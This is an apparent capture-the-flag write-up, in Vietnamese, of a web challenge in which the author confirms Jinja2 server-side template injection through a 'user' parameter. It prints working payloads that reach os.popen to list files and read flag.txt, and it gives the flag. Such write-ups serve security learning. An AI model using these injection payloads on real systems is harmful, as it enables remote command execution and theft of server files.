







[WED](#web)

# Super hero
WED

## Solution:
truy cập vào đường dẫn được cung cấp thì mình nhận được một form như này:

mình scan vào input bằng một số payload cơ bản thì nhận thấy rằng có thể tấn công SSTI.

payload: /?user=%7B%7B7*7%7D%7D

kết quả hiện thị ra màn hình là 49 nên ta có thể bắt đầu khai thác SSTI.
từ đo sta có thể kết luận là jinja2 hoặc là twig

sau khi thử một vài payload SSTI trên payloadallofthing thì mình nhận thấy: 
các payload của jinja2 đều dùng được nên có thể chắc chắn là jinja2.

tiếp tục tìm kiếm trên một số trang thì mình tìm thấy, cách khai thác này:

payload: {{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() }}

{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}

flag: PISCTF{s0_3zsy_SSTI_F0R_K1d}

